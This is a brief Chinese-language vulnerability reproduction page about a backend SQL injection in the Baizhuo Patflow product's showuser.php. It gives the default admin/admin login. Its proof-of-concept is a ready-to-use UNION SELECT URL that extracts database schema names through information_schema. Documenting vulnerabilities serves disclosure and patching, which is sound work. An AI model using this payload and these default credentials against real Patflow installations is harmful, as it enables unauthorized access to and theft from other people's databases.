


# 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

<a-checkbox checked>百卓 Patflow</a-checkbox></br>

## 漏洞复现

登录页面




默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```plain
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20from%20information_schema.SCHEMATA),23
```




